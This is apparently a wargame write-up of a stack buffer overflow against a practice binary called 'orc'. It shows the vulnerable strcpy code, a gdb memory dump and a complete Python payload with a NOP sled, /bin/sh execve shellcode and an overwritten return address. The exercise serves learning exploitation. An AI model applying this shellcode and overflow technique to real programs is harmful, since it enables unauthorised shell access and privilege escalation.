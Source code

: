 # Vulnerability
In `orc.c`, strcpy() copys argv[1] into buffer[40], without boundary check.

Difference from last problem is that `egghunter` is added which reset environment variables and I must use stack address in RET since it check's RET's first byte is '\xbf' or not.
```c
char buffer[40];
// egghunter 
for(i=0; environ[i]; i++)
  memset(environ[i], 0, strlen(environ[i]));

if(argv[1][47] != '\xbf')
{
  printf("stack is still your friend.\n");
  exit(0);
}
strcpy(buffer, argv[1]);
```

# Exploitation
The buffer is smaller than first problem(gate which has 256 bytes) but enough to give NOP(15) + SHELLCODE(25).

```assembly
0x8048500 <main>:	push   %ebp
0x8048501 <main+1>:	mov    %esp,%ebp
0x8048503 <main+3>:	sub    $0x2c,%esp
```

This process uses '\x2c' size but 4 bytes are for 'i' variable.

I will give that on buffer and use RET to buffer's address.

```
----------------------------------------------------------------
| NOP(15) | SHELLCODE[25] | AAAA(4) | RET[buffer's address](4) |
----------------------------------------------------------------
```

So, I made a python file to give payload and got a core dump file.

In core file, the memory is:
```
(gdb) x/32x $esp-48
0xbffffab0:	0x90909090	0x90909090	0x90909090	0x31909090
0xbffffac0:	0x2f6850c0	0x6868732f	0x6e69622f	0x5350e389
0xbffffad0:	0xd231e189	0x80cd0bb0	0x41414141	0xbfbfbfbf
```

But, used this address to return but doesn't work. So, I used argv[1] address instead buffer's address.
```
0xbffffc1c:	0x90909000	0x90909090	0x90909090	0x90909090
0xbffffc2c:	0x6850c031	0x68732f2f	0x69622f68	0x50e3896e
0xbffffc3c:	0x31e18953	0xcd0bb0d2	0x41414180	0xfffab041
```

# Payload
```python
import os
from struct import *

payload = ""
payload = payload + "\x90" * 15
payload = payload + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"
payload = payload + "AAAA" # SFP
payload = payload + "\x20\xfc\xff\xbf" # RET

os.execv('/home/goblin/orc', ["", payload])
```

